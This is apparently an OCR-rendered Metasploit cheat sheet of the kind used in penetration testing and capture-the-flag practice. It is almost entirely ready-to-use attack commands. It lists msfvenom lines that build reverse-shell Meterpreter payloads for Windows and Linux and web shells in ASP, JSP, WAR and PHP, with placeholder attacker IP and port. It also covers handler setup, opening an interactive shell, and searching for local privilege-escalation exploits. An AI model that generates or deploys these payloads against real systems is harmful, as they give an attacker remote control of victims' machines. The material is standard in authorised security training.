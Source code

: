 ```bash
msf6 <TYPE>(<MODULE>) > grep meterpreter show payloads
```

## Meterpreter Shells
windows/meterpreter_reverse_https is actually a much more powerful choice because of the encrypted channel, and it allows you to disconnect the payload (and exit msfconsole) without terminating it. And then the payload will automatically get back to you as soon as you set up the handler again.

### MSFvenom Payloads
```bash
# Staged Payloads for Windows
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payloads for Windows
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Staged Payloads for Linux
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payloads for Linux
$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# asp	
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war

# php
$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
``` 

### Setting Up Multi/Handler
```bash
msf6 > use multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
```

#### Interactive Shells
```bash
meterpreter > shell
```

#### Commands
```bash
meterpreter > help

msf6 > search local_exploit_suggester
meterpreter > search -f "flag.txt"
```
